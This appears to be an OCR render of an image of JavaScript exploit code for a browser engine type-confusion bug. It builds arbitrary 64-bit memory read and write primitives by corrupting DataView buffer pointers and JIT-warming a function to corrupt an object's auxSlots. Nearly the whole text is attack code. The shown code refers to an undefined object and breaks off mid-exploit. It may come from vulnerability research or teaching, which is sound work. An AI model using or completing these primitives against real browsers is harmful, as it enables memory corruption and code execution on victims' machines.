 ```html
// Create two DataView objects
dataview1 = new DataView(new ArrayBuffer(0x100));
dataview2 = new DataView(new ArrayBuffer(0x100));

// Function to convert to hex for memory addresses
function hex(x) {
    return x.toString(16);
}

// Arbitrary read function
function read64(lo, hi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to read from (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Instead of returning a 64-bit value here, we will create a 32-bit typed array and return the entire away
    // Write primitive requires breaking the 64-bit address up into 2 32-bit values so this allows us an easy way to do this
    var arrayRead = new Uint32Array(0x10);
    arrayRead[0] = dataview2.getInt32(0x0, true);   // 4-byte arbitrary read
    arrayRead[1] = dataview2.getInt32(0x4, true);   // 4-byte arbitrary read

    // Return the array
    return arrayRead;
}

// Arbitrary write function
function write64(lo, hi, valLo, valHi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to write to (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Perform the write with our 64-bit value (broken into two 4 bytes values, because of JavaScript)
    dataview2.setUint32(0x0, valLo, true);       // 4-byte arbitrary write
    dataview2.setUint32(0x4, valHi, true);       // 4-byte arbitrary write
}

// Function used to set prototype on tmp function to cause type transition on o object
function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
}

// main function
function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
```
